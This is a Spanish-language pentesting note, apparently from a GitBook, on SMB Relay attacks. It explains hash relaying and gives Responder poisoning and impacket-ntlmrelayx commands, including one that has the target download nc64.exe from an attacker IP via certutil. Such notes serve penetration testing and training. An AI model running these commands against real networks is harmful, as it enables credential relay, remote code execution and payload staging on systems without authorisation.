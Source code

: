 ```yaml
---
description: SMB Signing -> False
---
```


# SMB Relay

### Descripción&#x20;

Este ataque consiste en capturar los hashes Net-NTLM de un cliente, reenviarlos a un segundo cliente, permitiendonos actuar como si fuesemos el primer cliente. Debido a que el primer cliente es un usuario administrador, podremos ejecutar comandos o ganar una shell en el segundo cliente.

Para poder hacer el relaying el cliente del que capturemos los hashes Net-NTLM deberá pertenecer al grupo local de administradores sobre el cual vamos a querer ejecutar comandos y que el SMB signing esté desactivado.

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

**/usr/share/responder/Responder.Conf:**

![](<../../../.gitbook/assets/image (27).png>)



### Explotación

Envenenar el tráfico con responder:

```bash
python Responder.py -I eth0 -dw 
```

Empezar el ataque con ntlmrelayx

<pre><code># con elbinario de impacket que viene en kali
impacket-ntlmrelayx -t (ip-target) -smb2support # el -smb2support es para versiones posteriores a WindowsServer 2008
<strong>impacket-ntlmrelayx -t 192.168.0.110 -smb2support
</strong>impacket-ntlmrelayx -tf targets.txt -smb2support

# ejecutar comandos
impacket-ntlmrelayx -t 192.168.0.110 -c "certutil.exe -f -urlcache -split http://192.168.0.108:9090/nc64.exe C:\\Windows\\Temp\\nc.exe" -smb2support

</code></pre>

Cliente 1 con privilegios de administrador en el cliente 2:

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

Hashes dumpeados con ntlmrelayx

<figure><img src="../../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

